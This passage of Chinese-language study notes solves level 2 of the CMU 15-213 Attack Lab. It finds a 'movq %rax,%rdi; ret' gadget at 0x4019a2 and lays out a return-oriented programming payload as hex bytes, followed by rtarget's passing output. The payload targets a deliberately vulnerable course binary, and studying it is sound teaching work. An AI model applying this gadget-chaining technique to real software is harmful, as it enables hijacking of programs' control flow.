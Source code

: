 那么相对应的`gadget02`的指令应该为

```assembly
#gadget02
movq %rax,%rdi # 48 89 c7
ret			   # c3
```

然后就在`<start_farm>`和`<end_farm>`之间寻找`48 89 c7`的指令是否存在并且后面是否存在`ret`指令：

```assembly
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	ret    
```

这样在地址`0x4019a2`处的指令恰好满足我们的需求，所以可以确定将`gadget02`的位置设置为`0x4019a2`，这样修改后的栈空间示意图为：

![image-20240514200812560](E:\code_life\1_project\cs61a\2024notes\image\image-20240514200812560.png)

所以设计的输入数据的思路为：4017ec

- 前五行：前40个字节无效输入均为0
- 第六行：索引40到47处保存gadget01代码地址
- 第七行：索引48到55处保存cookie
- 第八行：索引56到63保存gadget02代码地址
- 第九行：索引64到71保存touch2的地址

即：

```tex
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

执行后的成功结果：

```bash
crx@ubuntu:03_attack_lab$ ./rtarget -q -i exploit4-raw.txt
Cookie: 0x59b997fa
Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
